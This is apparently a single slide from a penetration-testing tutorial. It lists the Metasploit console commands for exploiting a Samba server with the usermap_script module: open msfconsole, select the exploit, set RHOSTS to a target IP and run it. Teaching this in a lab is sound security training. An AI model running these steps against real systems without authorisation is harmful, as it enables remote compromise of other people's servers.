

# 2. Use Metasploit to Exploit:
Open Metasploit: msfconsole
Find the Samba exploit: search usermap_script
Choose the right exploit: use exploit/multi/samba/usermap_script
Tell Metasploit which computer to target: set RHOSTS [IP Address]
Launch the attack: run